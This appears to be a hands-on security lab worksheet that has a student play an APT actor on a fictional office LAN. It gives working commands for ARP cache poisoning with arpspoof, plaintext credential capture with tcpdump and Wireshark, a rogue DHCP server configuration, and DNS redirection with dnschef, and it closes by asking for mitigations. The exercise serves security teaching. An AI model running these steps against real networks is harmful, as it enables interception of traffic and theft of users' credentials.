 # The Silent Snoop

Objective: Act as an APT actor (`APT-77`, "ARP Phantom") to poison the local network's Address Resolution Protocol (ARP) tables and deploy a rogue DHCP server. This will position you as a silent intermediary for all traffic, allowing you to capture plaintext credentials and manipulate DNS resolution.

Scenario: The [OpenHands International](entity.md) office LAN uses a flat network structure with minimal segmentation. Your goal is to establish a persistent MitM position on this local network segment to intercept unencrypted traffic and redirect users to a malicious credential-harvesting portal.

## Phase 1: Network Reconnaissance & Topology Mapping

Goal: Understand the local network's addressing scheme and identify key targets like the default gateway and DNS server.

Instructions:

1.  Access Your Foothold:
    *   You have gained physical access to the OpenHands office and plugged your laptop into a network jack. A Linux VM on your laptop is your attack platform.
    *   Command: `ssh volunteer@localhost` (or log in directly to the VM desktop)
    *   Password: `[Provided by Lab Instructor]`

2.  Discover Your Network Configuration:
    *   Your machine should have received an IP address via DHCP. Find your IP, subnet mask, and most importantly, the default gateway.
    *   Command: `ip addr show` and `ip route show default`
    *   Your IP: `[DISCOVER THIS]`
    *   Default Gateway IP: `[DISCOVER THIS]` - This is your primary target. Note it as `GATEWAY_IP`.

3.  Map the Active Network:
    *   Perform an ARP scan to discover other live hosts on your local subnet without being too noisy.
    *   Command: `sudo netdiscover -i eth0 -r <your_subnet>/24` (e.g., if your IP is `192.168.1.50`, use `-r 192.168.1.0/24`)
    *   Finding: Note the IP and MAC address of the default gateway. Also, identify the IP of a colleague's workstation.
    *   Gateway MAC Address: `[DISCOVER THIS]`
    *   Colleague Workstation IP: `[DISCOVER THIS]` - Note it as `VICTIM_IP`.

4.  Identify the Legitimate DHCP Server:
    *   Often, the gateway is also the DHCP server. Check your system's DHCP lease file or try to identify it via network traffic.
    *   Command: `cat /var/lib/dhcp/dhclient.leases` or `sudo tcpdump -i eth0 -n port 67 or port 68 -c 5`
    *   Finding: What is the IP address of the DHCP server? It is likely your `GATEWAY_IP`.
    *   DHCP Server IP: `[CONFIRM THIS]`

Checkpoint: You have mapped the local network and identified the critical network infrastructure: the gateway and a victim machine.

## Phase 2: ARP Cache Poisoning (Machine-in-the-Middle)

Goal: Poison the ARP caches of the victim and the gateway to make them believe your MAC address is associated with the other's IP.

Instructions:

1.  Enable IP Forwarding:
    *   On your attacker machine, enable kernel-level IP forwarding. This ensures that after you intercept traffic, you can forward it on to its real destination, making the attack silent and persistent.
    *   Command: `sudo sysctl -w net.ipv4.ip_forward=1`

2.  Launch the ARP Poisoning Attack:
    *   We will use the tool `arpspoof` from the `dsniff` suite to perform the poisoning.
    *   Terminal 1 - Poison the Victim: Open a new terminal and tell the victim machine: "I am the gateway.":

    ```bash
    sudo arpspoof -i eth0 -t <VICTIM_IP> <GATEWAY_IP>
    ```
    *   Terminal 2 - Poison the Gateway: Open another terminal and tell the gateway: "I am the victim machine.":

    ```bash
    sudo arpspoof -i eth0 -t <GATEWAY_IP> <VICTIM_IP>
    ```

3.  Verify the attack is working:
    *   On your attacker machine, check your ARP table. It should correctly map the IPs to their real MAC addresses.
    *   On the victim machine (ask your instructor for access or simulate it), check its ARP table. The `GATEWAY_IP` should now be mapped to *your* machine's MAC address.
    *   Command on Victim (simulated): `arp -a`
    *   Finding: What MAC address does the victim have for the gateway? It should be your MAC address.
    *   Victim's ARP Entry for Gateway: `[YOUR MAC ADDRESS]`

Checkpoint: You are now a silent intermediary. All traffic between the victim and the gateway flows through your machine. You can begin intercepting.

## Phase 3: Traffic Interception & Credential Harvesting

Goal: Use a network sniffer to capture plaintext traffic and harvest credentials from unencrypted protocols.

Instructions:

1.  Capture Passing Traffic:
    *   Open a third terminal on your attacker machine. Use `tcpdump` to capture any HTTP traffic (which is unencrypted) for analysis.
    *   Command: `sudo tcpdump -i eth0 -w captured_http.pcap port 80 and host <VICTIM_IP>`

2.  Trigger Data Generation (Optional):
    *   Inform your lab instructor. They may have the "victim" machine browse to an internal HTTP-only login page (e.g., a legacy intranet site) and enter dummy credentials.

3.  Analyze the Capture for Credentials:
    *   Stop the `tcpdump` capture after a minute. Transfer the file to your home directory and open it in Wireshark.
    *   Command: `wireshark captured_http.pcap`
    *   Finding: In Wireshark, apply the filter `http.request.method == POST`. Follow the TCP stream of this packet. Can you find the submitted username and password in plaintext?
    *   Exfiltrated Credentials: `username=[DISCOVER THIS]&password=[DISCOVER THIS]`

Checkpoint: You have successfully intercepted and harvested plaintext credentials due to the use of an unencrypted protocol.

## Phase 4: Deploying a Rogue DHCP Server (Persistence)

Goal: Go beyond a single victim. Deploy a malicious DHCP server to assign yourself as the default gateway and DNS server for *every new device* on the network.

Instructions:

1.  Configure the Rogue DHCP Server:
    *   The tool `isc-dhcp-server` is pre-installed. You need to edit its configuration file.
    *   Command: `sudo nano /etc/dhcp/dhcpd.conf`
*   Configuration to add:

```text
authoritative;
subnet 192.168.1.0 netmask 255.255.255.0 {
  range 192.168.1.100 192.168.1.200;
  option routers <YOUR_ATTACKER_IP>;    # You become the gateway
  option domain-name-servers <YOUR_ATTACKER_IP>; # You become the DNS server
}
```

  *   *Adjust the subnet to match your lab environment.*

2.  Start the Rogue Server:
    *   Start the DHCP server on your network interface. This will respond to DHCP requests faster than the legitimate server.
*   Commands:

```bash
sudo systemctl stop systemd-resolved  # Stop any conflicting service
sudo dhcpd -f -d eth0 &               # Start the rogue server in the foreground
```

3.  Force Clients to Reconnect:
    *   Ask your instructor to release and renew the DHCP lease on another lab machine (the "victim").
    *   Command on Victim (simulated): `sudo dhclient -r eth0 && sudo dhclient eth0`
    *   Verification: After the victim renews, check its new gateway and DNS server. They should now be your attacker IP.
    *   Victim's New Gateway: `[YOUR_ATTACKER_IP]`

Checkpoint: You have achieved network-level persistence. Any new device joining the network or renewing its lease will now be routed through you.

## Phase 5: DNS Manipulation (Optional Bonus)

Goal: Since you are now the DNS server for poisoned clients, you can manipulate their internet traffic.

Instructions:

1.  Set Up a Simple DNS Server:
    *   Use a simple tool like `dnschef` to run a fake DNS server that redirects all queries to an IP you control (e.g., for a phishing site).
    *   Command: `sudo dnschef --fakeip=<YOUR_ATTACKER_IP> --interface=<YOUR_ATTACKER_IP> --port=53`

2.  Test the DNS Redirection:
    *   On the victim machine, try to browse to `http://www.google.com`. The request will be sent to your machine's web server instead.
    *   Observation: If you set up a simple HTTP server on your machine (`sudo python3 -m http.server 80`), you will see the victim's request in your logs.

Final Report: Document all the `[DISCOVER THIS]` fields. Explain the impact of ARP and DHCP poisoning on network security. Propose two mitigations to prevent these attacks (e.g., DHCP Snooping, Dynamic ARP Inspection).

